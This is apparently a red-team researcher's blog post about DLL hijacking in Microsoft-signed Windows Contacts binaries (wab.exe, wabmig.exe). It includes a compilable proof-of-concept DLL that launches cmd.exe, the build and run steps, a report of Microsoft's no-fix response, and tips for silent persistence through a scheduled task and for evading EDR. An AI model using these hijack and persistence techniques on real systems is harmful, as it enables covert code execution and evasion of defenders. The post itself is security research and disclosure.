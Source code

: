```yaml
---
title: "CWD DLL Hijacks in Windows Contacts"
date: 2024-02-23T02:08:42Z
draft: true
tags: ["notes research"]
---
```


![Alt text](images/image-3.png)

## WAB!

Recently when looking for some bugs to leverage red teaming, I found the following Windows binaries load several libraries from the application directory. Note that these files are also digitally signed by Microsoft. 

1. `C:\Program Files\Windows Mail\wabmig.exe`
2. `C:\Program Files\Windows Mail\wab.exe`

Attackers can leverage this behavior to perform DLL hijacking / proxying attacks and obtain code execution on a target system, establish persistence and/or distribute malware. 

Sigcheck output:
```
PS C:\Program Files\Windows Mail> sigcheck .\wab.exe

Sigcheck v2.90 - File version and signature viewer
Copyright (C) 2004-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Windows Mail\wab.exe:
        Verified:       Signed
        Signing date:   2:52 AM 2/2/2024
        Publisher:      Microsoft Windows
        Company:        Microsoft Corporation
        Description:    Windows Contacts
        Product:        Microsoft� Windows� Operating System
        Prod version:   10.0.19041.3636
        File version:   10.0.19041.3636 (WinBuild.160101.0800)
        MachineType:    64-bit
```

### Vanilla DLL Hijack PoC

1. Create a file named "test.c" wherever you want, containing a DLL PoC, e.g.:
```c
#pragma once
#include <windows.h>
#include <WinUser.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
        MessageBoxW(NULL, L"TEST", L"TEST", MB_OK);
        system("cmd.exe");
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

2. Open the Developer Command Prompt and navigate to the directory test.c was saved to
3. Compile test.c into msftedit.dll using the following command:
`cl /LD test.c /Fe:msftedit.dll User32.lib`
4. Copy `wab.exe` and/or `wabmig.exe` to the same directory as the new `msftedit.dll`
4. Execute wab.exe / wabmig.exe
5. Note the messagebox displaying "TEST", followed by a Command Prompt window indicating the malicious `msftedit.dll` file has been loaded by the application.

![Alt text](images/image-2.png)

As this is an application directory hijack, it is possible to host the vulnerable applications and DLLs on remote file shares, or within ISO containers to perform hijacking attacks. This is pretty sweet as it allows malware delivery options that leverage signed MS bins :) Sadly signing isn't respected from UNC paths.

Additionally, running the wab.exe application with the `/SyncLogonPicture` CLI switch avoids creating a GUI window, allowing for a stealthier form of execution-- one that's suitable for persistence.

## Disclosure

I reported this out to MS as a CWD hijack initially-- according to their [DLL planting triage](https://msrc.microsoft.com/blog/2018/04/triaging-a-dll-planting-vulnerability/) post this seemed to fit the bill for a CWD. Opening an associated file type like `.contact` didn't cause the behavior though, so I came to the realize it's what they'd consider to be an application hijack. As far as MS is concerened, this warrants *no fix at all* and a severity rating of `none`.

![alt text](images/ms-response.png)

Better luck next time, I guess!

## So is this even useful?

In terms of initial access... maaaybeeee. For persistence? Yes and there are a couple use cases I can immediately apply. 

Due to the presence of a few undocumented CLI switches it's possible to launch wab/mig, and their corresponding DLL hijacks, without opening any windows. As mentioned previously, the `/SyncLogonPicture` switch does... *something*, and runs silently, which means a scheduled task like the following looks pretty innocuous, no?

![alt text](images/scheduled_task.png)

Placing a malicious `msftedit.dll` in `C:\Program Files\Windows Mail\` means every time this task is run, your payload runs too :) Sure, that requires you have local admin, womp womp, but another option would be to just copy `wab.exe` somewhere else, maybe `%appdata%`, and do the same thing. Place the DLL, make the task.

You might think: 

    "why don't you just run an exe if you can place something on disk?" 

You could definitely do that, but in the land age of telemetry, reducing *any footprint* is potentially useful. Running a Microsoft *signed* executable shouldn't set off any alarms immediately, which in turn might help prevent high fidelity detections. A scheduled task that also **seems relevant** to what the signed binary is actually doing may further disguise this persistence mechanism, and blue teams may not (hopefully) identify the true malicious nature of the task, deferring to it's apparent legitimacy.

Anyway, lots of cheeky ways of going about this, some more useful than others. I'll take anything to keep the EDR at bay during ops, though!
